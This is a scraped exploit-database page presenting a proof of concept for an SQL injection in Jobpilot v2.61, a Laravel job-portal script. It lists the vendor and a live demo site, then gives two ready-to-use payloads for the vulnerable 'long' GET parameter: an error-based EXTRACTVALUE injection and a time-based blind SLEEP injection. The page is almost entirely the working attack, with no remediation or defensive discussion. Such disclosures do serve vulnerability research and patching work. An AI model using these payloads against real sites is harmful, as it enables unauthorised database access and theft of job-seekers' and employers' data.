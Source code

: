 ```yaml
---
title: Jobpilot v2.61 - SQL Injection Vulnerability exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38800&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-06-20
fetch_date: 2025-10-04T11:44:42.186763
---
```


# Jobpilot v2.61 - SQL Injection Vulnerability exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Jobpilot v2.61 - SQL Injection Vulnerability

2023-06-19 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38800
# Exploit Title: Jobpilot v2.61 - SQL Injection
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor: https://codecanyon.net/item/jobpilot-job-portal-laravel-script/37897822
# Demo Site: https://jobpilot.templatecookie.com
# Tested on: Kali Linux
# CVE: N/A

----- PoC: SQLi -----

Parameter: long (GET)
    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP
BY clause (EXTRACTVALUE)
    Payload: keyword=1&lat=34.0536909&long=-118.242766&long=-118.242766)
AND EXTRACTVALUE(4894,CONCAT(0x5c,0x7170766271,(SELECT
(ELT(4894=4894,1))),0x71786b7171)) AND
(1440=1440&lat=34.0536909&location=Los Angeles, Los Angeles County, CAL
Fire Contract Counties, California, United
States&category=&price_min=&price_max=&tag=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: keyword=1&lat=34.0536909&long=-118.242766&long=-118.242766)
AND (SELECT 9988 FROM (SELECT(SLEEP(5)))bgbf) AND
(1913=1913&lat=34.0536909&location=Los Angeles, Los Angeles County, CAL
Fire Contract Counties, California, United
States&category=&price_min=&price_max=&tag=
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)